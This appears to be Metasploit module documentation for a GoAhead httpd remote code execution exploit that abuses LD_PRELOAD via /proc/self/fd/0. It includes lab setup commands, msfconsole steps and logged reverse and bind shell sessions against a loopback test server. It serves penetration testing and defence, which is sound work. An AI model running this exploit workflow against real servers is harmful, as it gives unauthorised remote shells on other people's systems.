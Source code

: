 ## Vulnerable Application

  The GoAhead httpd server between versions 2.5 and 3.6.4 are vulnerable to an arbitrary code execution
  vulnerability where a remote attacker can force a supplied shared library to be loaded into the process
  of a CGI application. This module delivers a shared library payload as the raw data to a POST request
  and forces this to be loaded by specifying a `LD_PRELOAD` value of `/proc/self/fd/0`.

### Kali 2017.3 and Ubuntu 16.04 Install Instructions

These instructions are based on the vulerability analysis by [elttam.com.au](https://www.elttam.com.au/blog/goahead/)

```
git clone https://github.com/embedthis/goahead.git
cd goahead/
git checkout tags/v3.6.4 -q
make > /dev/null
cd test
gcc ./cgitest.c -o cgi-bin/cgitest
../build/linux-x64-default/bin/goahead . 127.1.1.1:8080
```

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/goahead_ldpreload```
  4. Do: ```set rhost [ip]```
  5. Do: ```exploit```
  6. You should get a shell.

## Options

  **TARGET_URI**

  Optional. The full path to a CGI endpoint on the target server.

## Scenarios

### GoAhead 3.6.4 on Ubuntu 16.04 x64

```

msf> use exploit/linux/http/goahead_preload
msf exploit(goahead_ldpreload) > set RHOST 127.1.1.1
msf exploit(goahead_ldpreload) > set RPORT 8080
msf exploit(goahead_ldpreload) > check

[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[+] 127.1.1.1:8080 The target is vulnerable.

msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 4 opened (127.0.0.1:4444 -> 127.0.0.1:32988) at 2017-12-28 16:26:50 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 1
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[*] Started bind handler
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 5 opened (127.0.0.1:30836 -> 127.1.1.1:4444) at 2017-12-28 16:28:04 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
exit

msf exploit(goahead_ldpreload) > set TARGET 2
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP double handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo sNRXNjxWl7ic0uWw;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "sNRXNjxWl7ic0uWw\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 6 opened (127.0.0.1:4444 -> 127.0.0.1:32995) at 2017-12-28 16:28:56 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


msf exploit(goahead_ldpreload) > set TARGET 4
msf exploit(goahead_ldpreload) > unset PAYLOAD
msf exploit(goahead_ldpreload) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Searching 390 paths for an exploitable CGI endpoint...
[+] Exploitable CGI located at /cgi-bin/cgitest
[*] Command shell session 7 opened (127.0.0.1:4444 -> 127.0.0.1:33000) at 2017-12-28 16:29:34 -0600

uname -a
Linux smash 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```


## Logging

Each 404 error will generate a console or log entry similar to `goahead: 0: Cannot find CGI program:`.

